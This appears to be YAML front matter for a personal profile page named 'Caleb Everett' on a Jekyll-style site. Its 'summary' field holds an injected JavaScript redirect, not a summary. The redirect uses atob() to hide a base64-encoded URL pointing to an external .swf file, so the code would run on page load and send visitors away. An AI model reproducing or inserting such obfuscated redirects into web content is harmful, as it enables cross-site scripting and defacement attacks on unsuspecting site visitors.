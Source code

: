 ```yaml
---
layout: person
categories: people
title: Caleb Everett
date: 2013-08-31
summary:   window.location = atob("aHR0cDovLzdjaGFuLm9yZy9mbC9zcmMvaGV5LnN3Zg==")
published: true
---
```


